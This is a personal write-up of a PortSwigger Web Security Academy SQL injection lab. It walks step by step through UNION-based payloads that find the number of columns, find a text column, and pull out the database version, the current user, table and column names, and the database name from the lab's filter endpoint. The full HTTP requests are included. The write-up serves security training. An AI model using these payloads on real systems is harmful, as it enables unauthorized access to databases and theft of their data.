


# SQL injection UNION attack, finding a column containing text

## URL: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/

## Sitemap:

URL: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/


URL: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/product?productId=5


URL: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/filter?category=Pets



<br>

<br>

## SQL Injection Identification:

URL: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/filter?category=Pets'


<br>

<br>

## Exploitation:

### Find the len of data:

URL: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/filter?category=Pets'+UNION+SELECT+NULL,NULL,NULL--+-

Payload:

```
GET /filter?category=Pets'+UNION+SELECT+NULL,NULL,NULL--+- HTTP/2
```

### Map the values:

URL: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/filter?category='+UNION+SELECT+1,'AAAAAAAA',3--+-


The first argument is the id, the second is the name and it is a string, the final is the price

Request:

```
GET /filter?category='+UNION+SELECT+1,'AAAAAAAA',3--+- HTTP/2
Host: 0a58007b03b7226f80c8f949001b00c4.web-security-academy.net
Cookie: session=Tnj09TUf0NMId986fXG2L8No3JHJSpDW
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


```

### Get version:

```
https://blog.devart.com/how-to-check-mysql-version.html
```

URL: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/filter?category='+UNION+SELECT+1,cast(VERSION()+as+varchar),3--+-


Payload:

```
GET /filter?category='+UNION+SELECT+1,cast(VERSION()+as+varchar),3--+- HTTP/2
```

Request:

```
GET /filter?category='+UNION+SELECT+1,cast(VERSION()+as+varchar),3--+- HTTP/2
Host: 0a58007b03b7226f80c8f949001b00c4.web-security-academy.net
Cookie: session=Tnj09TUf0NMId986fXG2L8No3JHJSpDW
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


```


### Gt useranme:

URL: https://0a630009047b9b6582a54cc1000000aa.web-security-academy.net/filter?category='+UNION+SELECT+1,cast(USER+as+varchar),3--+-


Payload:

```
GET /filter?category='+UNION+SELECT+1,cast(USER+as+varchar),3--+- HTTP/2
```


### Get all tables:

URL: `https://0a630009047b9b6582a54cc1000000aa.web-security-academy.net/filter?category='+UNION+SELECT+1,cast(TABLE_NAME+as+varchar),3+FROM+information_schema.tables--+-`

Payload:

```
GET /filter?category='+UNION+SELECT+1,cast(TABLE_NAME+as+varchar),3+FROM+information_schema.tables--+- HTTP/2
```


Request:

```
GET /filter?category='+UNION+SELECT+1,cast(TABLE_NAME+as+varchar),3+FROM+information_schema.tables--+- HTTP/2
Host: 0a630009047b9b6582a54cc1000000aa.web-security-academy.net
Cookie: session=Tnj09TUf0NMId986fXG2L8No3JHJSpDW
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


```

### Get all columns:

URL: `https://0a630009047b9b6582a54cc1000000aa.web-security-academy.net/filter?category='+UNION+SELECT+1,cast(COLUMN_NAME+as+varchar),3+FROM+information_schema.COLUMNS--+-`



Payload:

```
GET /filter?category='+UNION+SELECT+1,cast(COLUMN_NAME+as+varchar),3+FROM+information_schema.COLUMNS--+- HTTP/2
```

#### Get current database:


URL: `https://0a630009047b9b6582a54cc1000000aa.web-security-academy.net/filter?category='+UNION+SELECT+1,cast(current_database()+as+varchar),3--+-`


Payload:

```
GET /filter?category='+UNION+SELECT+1,cast(current_database()+as+varchar),3--+- HTTP/2
```


We get table: `academy_labs`


### Get the solution:

I forgot to read the question and just started blsating the db :).

URL: https://0a630009047b9b6582a54cc1000000aa.web-security-academy.net/filter?category='+UNION+SELECT+NULL,'nnAnJk',NULL--+-


## Automation:

Does not require script
